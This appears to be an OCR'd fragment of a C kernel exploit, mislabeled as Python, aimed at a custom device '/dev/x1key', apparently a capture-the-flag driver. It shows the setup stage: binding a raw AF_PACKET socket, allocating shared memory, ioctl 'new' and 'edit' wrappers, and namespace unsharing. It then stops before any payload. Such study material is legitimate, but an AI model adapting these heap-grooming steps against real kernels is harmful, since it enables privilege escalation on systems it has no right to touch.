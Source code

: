 ```Python
        sa.sll_family = PF_PACKET;
        sa.sll_protocol = htons(ETH_P_ALL);
        sa.sll_ifindex = if_nametoindex("lo");
        sa.sll_hatype = 0;
        sa.sll_halen = 0;
        sa.sll_pkttype = 0;
        sa.sll_halen = 0;

        rv = bind(s, (struct sockaddr *)&sa, sizeof(sa));
        if (rv < 0)
        {
                perror("[-] bind (AF_PACKET)");
                exit(1);
        }

        return s;
}

char *shmid_open()
{
        int shmid;
        if ((shmid = shmget(IPC_PRIVATE, 100, 0600)) == -1)
        {
                perror("Shmget");
                exit(-1);
        }
        
        char *shmaddr = shmat(shmid, NULL, 0);
        if (shmaddr == (void *)-1)
        {
                perror("Shmat");
                exit(-1);
        }
        
        return shmaddr;
}

void new()
{
        memset(&request_t, 0, sizeof(struct request));
        
        ioctl(dev_fd, 0x101, &request_t);
}

void edit(int idx, uint32_t content)
{
        memset(&request_t, 0, sizeof(struct request));
        request_t.idx = idx;
        request_t.content = content;
        
        ioctl(dev_fd, 0x102, &request_t);
}

int main()
{
        unshare_setup();
        
        dev_fd = open("/dev/x1key",O_RDWR);
        
        char *shmaddr = shmid_open();
        
        new();
        
```